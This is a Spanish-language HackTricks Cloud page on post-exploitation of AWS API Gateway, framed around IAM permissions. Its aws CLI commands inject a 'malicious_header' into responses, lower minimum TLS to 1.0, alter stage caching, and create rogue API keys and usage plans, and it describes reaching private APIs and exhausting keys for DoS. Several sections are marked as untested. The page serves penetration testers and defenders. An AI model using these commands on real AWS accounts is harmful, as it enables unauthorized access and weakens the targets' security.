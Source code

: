 # AWS - Post Explotación de API Gateway

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>

## API Gateway

Para obtener más información, consulte:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Acceder a APIs no expuestas

Puede crear un punto final en [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) con el servicio com.amazonaws.us-east-1.execute-api, exponer el punto final en una red a la que tenga acceso (potencialmente a través de una máquina EC2) y asignar un grupo de seguridad que permita todas las conexiones.\
Luego, desde la máquina EC2, podrá acceder al punto final y, por lo tanto, llamar a la API de la puerta de enlace que no se expuso anteriormente.

### DoS de planes de uso

En la sección de **Enumeración** puede ver cómo **obtener el plan de uso** de las claves. Si tiene la clave y está **limitada** a X usos **por mes**, podría **usarla y causar un DoS**.

La **clave API** solo necesita ser **incluida** dentro de un **encabezado HTTP** llamado **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Un atacante con los permisos `apigateway:UpdateGatewayResponse` y `apigateway:CreateDeployment` puede **modificar una respuesta de puerta de enlace existente para incluir encabezados personalizados o plantillas de respuesta que filtren información confidencial o ejecuten scripts maliciosos**.

{% code overflow="wrap" %}
```bash
API_ID="tu-id-de-api"
RESPONSE_TYPE="DEFAULT_4XX"

# Actualizar la respuesta de la puerta de enlace
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Crear una implementación para la API de la puerta de enlace REST actualizada
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto potencial**: Fuga de información confidencial, ejecución de scripts maliciosos o acceso no autorizado a recursos de API.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Un atacante con los permisos `apigateway:UpdateStage` y `apigateway:CreateDeployment` puede **modificar una etapa existente de la API Gateway para redirigir el tráfico a una etapa diferente o cambiar la configuración de caché para obtener acceso no autorizado a los datos en caché**.

{% code overflow="wrap" %}
```bash
API_ID="tu-id-de-api"
STAGE_NAME="Prod"

# Actualizar la etapa de la API Gateway
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Crear una implementación para la API de la puerta de enlace REST actualizada
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto potencial**: Acceso no autorizado a datos en caché, interrupción o interceptación del tráfico de API.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Un atacante con los permisos `apigateway:PutMethodResponse` y `apigateway:CreateDeployment` puede **modificar la respuesta del método de una API Gateway REST API existente para incluir encabezados personalizados o plantillas de respuesta que filtren información confidencial o ejecuten scripts maliciosos**.

```bash
API_ID="tu-id-de-api"
RESOURCE_ID="tu-id-de-recurso"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Actualizar la respuesta del método
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Crear una implementación para la API de la puerta de enlace REST actualizada
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```

**Impacto potencial**: Fuga de información confidencial, ejecución de scripts maliciosos o acceso no autorizado a recursos de API.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Un atacante con los permisos `apigateway:UpdateRestApi` y `apigateway:CreateDeployment` puede **modificar la configuración de la API Gateway REST API para deshabilitar el registro o cambiar la versión mínima de TLS, lo que podría debilitar la seguridad de la API**.

```bash
API_ID="tu-id-de-api"

# Actualizar la configuración de la API REST
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Crear una implementación para la API de la puerta de enlace REST actualizada
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```

**Impacto potencial**: Debilitamiento de la seguridad de la API, lo que podría permitir el acceso no autorizado o exponer información confidencial.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Un atacante con los permisos `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` y `apigateway:CreateUsagePlanKey` puede **crear nuevas claves de API, asociarlas con planes de uso y luego usar estas claves para acceder no autorizado a las APIs**.

```bash
# Crear una nueva clave de API
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Crear un nuevo plan de uso
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Asociar la clave de API con el plan de uso
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```

**Impacto potencial**: Acceso no autorizado a recursos de API, eludir los controles de seguridad.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>